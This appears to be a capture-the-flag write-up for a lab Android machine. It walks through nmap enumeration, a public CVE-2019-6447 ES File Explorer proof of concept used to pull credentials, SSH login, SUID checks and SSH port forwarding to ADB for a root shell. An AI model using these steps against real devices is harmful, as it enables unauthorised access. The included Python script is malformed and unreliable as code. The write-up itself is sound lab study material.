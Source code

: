 ### Box Info
OS: Android\
IP: 10.10.10.247

## Part I 

### Skills learned:
Curl/Python
Andriod OS + tools

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Research
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1: File Extraction
+ python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

After file downloaded, open 
+ ${IP}:59777/$dir/$.jpg || xdg-open out.dat
+ File gives UN && PW

### Step 2: SSH
+ ssh -p 2222 $UN@${IP} 
+ ${PW}

### Information Gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 

## Part II

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
import socket\
import subprocess\
import pyautogui\
import time\
\
def connection_function(host, port):\
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
connection_function("${IP}", 2222)\
\
def adb_connection(host, port):\
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
    subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)\
    password = "[PASSWORD OF TARGET MACHINE OF SSH]"\
    print(s.recv(1024))\
\
adb_connection("${IP}", 2222)\

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
